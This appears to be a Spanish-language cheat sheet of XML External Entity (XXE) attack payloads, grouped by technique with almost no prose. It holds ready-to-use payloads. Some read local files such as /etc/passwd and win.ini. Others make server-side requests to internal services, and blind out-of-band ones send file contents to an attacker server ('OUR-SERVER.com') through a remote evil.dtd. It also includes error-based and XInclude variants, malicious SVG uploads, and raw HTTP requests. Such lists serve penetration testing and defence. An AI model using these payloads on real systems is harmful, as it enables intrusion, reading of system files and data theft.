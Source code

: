 
# Diccionario de Payloads XXE

---

## 1. Lectura de Archivos Locales

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
````

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<data>&xxe;</data>
```

---

## 2. SSRF (Server-Side Request Forgery)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-service.local/secret"> ]>
<data>&xxe;</data>
```

---

## 3. Blind XXE (Exfiltración Out-of-Band)

```xml
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OUR-SERVER.com/?data=%file;'>">
  %eval;
  %exfil;
]>
```

```xml
<!DOCTYPE foo [
  <!ENTITY % remote SYSTEM "http://OUR-SERVER.com/evil.dtd">
  %remote;
]>
```

*(el archivo `evil.dtd` alojado en nuestro servidor puede contener la lógica de exfiltración)*

---

## 4. Error-Based XXE

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY fail SYSTEM "file:///does/not/exist/%xxe;">
]>
<foo>&fail;</foo>
```

---

## 5. XInclude (cuando DOCTYPE está bloqueado)

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

---

## 6. XXE en Archivos Subidos (ejemplo SVG)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg height="100" width="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "http://OUR-SERVER.com/xxe">
]>
<svg height="100" width="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

---

## 7. Forzando Content-Type

```
POST /api HTTP/1.1
Host: vulnerable.com
Content-Type: text/xml

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>&xxe;</data>
```

```
POST /api HTTP/1.1
Host: vulnerable.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/"> ]>
<data>&xxe;</data>
```

---
